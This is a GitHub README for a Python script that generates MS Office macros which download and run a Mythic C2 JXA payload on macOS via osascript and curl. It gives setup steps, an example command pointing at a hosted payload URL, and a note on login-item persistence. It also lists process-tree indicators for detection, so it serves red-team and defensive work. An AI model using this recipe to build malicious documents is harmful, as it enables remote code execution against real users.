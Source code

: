 # Mythic-Macro-Generator
Python3 script to generate MS Office macros for launching Mythic JXA payloads.

This script generates an Office macro doc which uses osascript to download and execute the Mythic JXA .js payload. 

Steps:

1. Set up Mythic C2 server and generate an "apfell" jxa payload (note: this generator assumes that the payload is using http not https). Download that payload on the Mythic server.

2. Host that payload (ex: put the .js payload in a folder and use python -m SimpleHTTPServer to host)

3. Run this macro generator:

**python3 jxa-macro.py -u [url to the hosted .js payload in #2 above]**

_*example: python3 jxa-macro.py -u http://192.168.1.1:8000/apfell2.js*_

4. The macro text will be dropped to a file in the same directory named "macro.txt"

5. Copy and paste that macro into an MS Office doc.


---------

**Detection:**

This macro spawns the following parent-child relationships that can be used for detection:

Office Product (ex: Microsoft Word.app) --> /bin/sh

Office Product (ex: Microsoft Word.app) --> /bin/bash

Office Product (ex: Microsoft Word.app) --> /usr/bin/curl


---------

**Note: This will launch the JXA payload inside of the App Sandbox. However, Mythic does have the ability to add Login Item persistence even from the App Sandbox.

**Also Sophos appears to stop this technique from execution**



